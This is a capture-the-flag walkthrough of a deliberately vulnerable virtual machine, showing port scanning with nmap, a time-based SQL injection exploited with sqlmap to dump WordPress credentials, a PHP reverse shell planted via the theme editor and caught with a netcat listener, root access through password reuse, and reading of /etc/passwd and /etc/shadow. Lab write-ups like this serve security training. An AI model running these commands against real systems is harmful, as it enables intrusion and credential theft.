


- Author Description
- SQL Injection
- Wordpress - Reverse PHP Shell
- Privilege Escalation
- Post Exploitation Enumeration
Author Description
The goal of this challenge is to break into the machine via the web and find the secret hidden in a sensitive file. If you can find the secret, send me an email for verification.
Port Scanning
nmap -v -p 1-65535 -sV -O -sT 10.0.1.109Service Enumeration
| Port | Service | Version Detection |
|---|---|---|
|
|
HTTP |
64 Apache httpd 2.4.7 ((Ubuntu)) |
|
|
HTTPS |
Apache httpd |
|
|
HTTP |
Apache httpd |
HTTP Enumeration
Enumeration of port 80, discovered login.php:


SQL Injection
The discovered form was vulnerable to a time-based SQL injection, SQLMap was used to expose the following databases:
available databases [7]:
[*] information_schema
[*] login
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] users
[*] wordpress8080SQLMap was used to dump the wordpress8080 database:
sqlmap -o -u "http://10.0.1.109/login.php" --forms -D wordpress8080 -T users --risk 1 --dbms=mysql --dumpDiscovered credentials:
Database: wordpress8080
Table: users
[1 entry]
+----------+---------------------+
| username | password |
+----------+---------------------+
| admin | SuperSecretPassword |
+----------+---------------------+Wordpress - Reverse PHP Shell
Wordpress was accessible on port 443 and port 8080. Authentication was successful using the discovered credentials and a PHP reverse shell was introduced to the sites source code via the wordpress theme editor.
| Username | Password |
|---|---|
|
admin |
|

A reverse shell successfully connected back:
[root:~]# nc -n -v -l -p 443
listening on [any] 443 ...
connect to [10.0.1.110] from (UNKNOWN) [10.0.1.109] 37912
Linux Freshly 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 i686 i686 GNU/Linux
13:26:49 up 46 min, 0 users, load average: 0.00, 0.01, 0.46
USER TTY FROM [email protected] IDLE JCPU PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$Privilege Escalation
Account credential reuse from the Wordpress admin password SuperSecretPassword allowed su - to escalate privileges to root.
$ python -c 'import pty;pty.spawn("/bin/bash")'
[email protected]:/$ id
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
[email protected]:/$ su -
su -
Password: SuperSecretPassword
[email protected]:~# id
id
uid=0(root) gid=0(root) groups=0(root)Post Exploitation Enumeration
The file /etc/passwd contained the text:
[email protected]:/# tail -n 5 /etc/passwd
tail -n 5 /etc/passwd
user:x:1000:1000:user,,,:/home/user:/bin/bash
mysql:x:103:111:MySQL Server,,,:/nonexistent:/bin/false
candycane:x:1001:1001::/home/candycane:
# YOU STOLE MY SECRET FILE!
# SECRET = "NOBODY EVER GOES IN, AND NOBODY EVER COMES OUT!"Additionally the file /etc/shadow had incorrect permissions allowing a non privileged user read access, allowing for offline password cracking using Hashcat / JTR.
Thanks for the VM :)